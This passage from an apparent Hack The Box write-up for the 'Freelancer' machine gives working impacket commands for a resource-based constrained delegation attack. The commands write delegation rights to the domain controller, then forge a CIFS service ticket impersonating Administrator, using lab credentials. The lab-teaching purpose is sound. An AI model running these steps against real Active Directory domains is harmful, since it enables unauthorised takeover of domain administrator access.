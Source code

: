 `impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'DC$' -dc-ip 10.10.11.5 -action 'write' 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/freelancer/image-45.png)



The next step is to obtain a service ticket to access the service CIFS.

`getST.py -spn 'cifs/DC$' -impersonate Administrator -dc-ip 10.10.11.5 'freelancer.htb/ATTACKERSYSTEM$:Summer2018!'`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/freelancer/image-44.png)

Here, we passed “DC$” instead of the full FQDN “DC.freelancer.htb”.

Additionally, we encountered a Kerberos clock skew error. Although attempting to update it using “ntpdate” failed, manually adjusting the clock to match the time of the domain controller resolved the issue.

Let's use the following commands to synchronize the clock with the domain controller:

`sudo ntpdate -u freelancer.htb`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/freelancer/image-46.png)

After syncrhoizing the clock, we can obtain service ticket:

`getST.py -spn 'cifs/DC.freelancer.htb' -impersonate Administrator -dc-ip 10.10.11.5 'freelancer.htb/ATTACKERSYSTEM$:Summer2018!'`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/freelancer/image-47.png)
